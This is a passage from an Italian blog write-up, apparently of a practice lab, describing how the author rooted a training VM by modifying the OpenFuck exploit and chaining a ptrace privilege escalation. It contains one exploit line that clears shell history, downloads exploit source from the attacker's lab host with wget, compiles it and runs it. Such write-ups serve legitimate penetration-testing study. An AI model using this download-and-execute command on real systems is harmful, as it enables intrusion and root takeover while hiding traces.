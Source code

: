 Visto che le macchine del mio laboratorio non possono uscire su Internet, ho
caricato sulla Kali l'exploit e l'ho spostato nella _/var/www/html_ in modo da
poterlo servire via HTTP.

{% highlight c %}
#define COMMAND2 "unset HISTFILE; cd /tmp; wget http://192.168.56.101/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; \n"
{% endhighlight %}

Dopo le modifiche, il nostro exploit si compila senza neanche un warning ed è
pronto per essere eseguito.

![Compiliamo il nostro exploit]({{site.url}}/assets/images/getting-root/k1/openfuck_good_compile.png)

Lanciato l'exploit, abbiamo i due stadi dell'attacco: la shell locale e
l'upload dell'exploit per la privilege escalation che ci regala una shell di
root .

![Seconda shell di root]({{site.url}}/assets/images/getting-root/k1/root_2.png)

## Off by one

Questa era una macchina semplice. Sicuramente molto lontana da quelle che ho
trovato durante l'esame. Mi serviva però qualcosa per aumentare un po'
l'autostima. Root alla mano, siamo pronti per una seconda macchina con cui
allenarci...

Enjoy it!
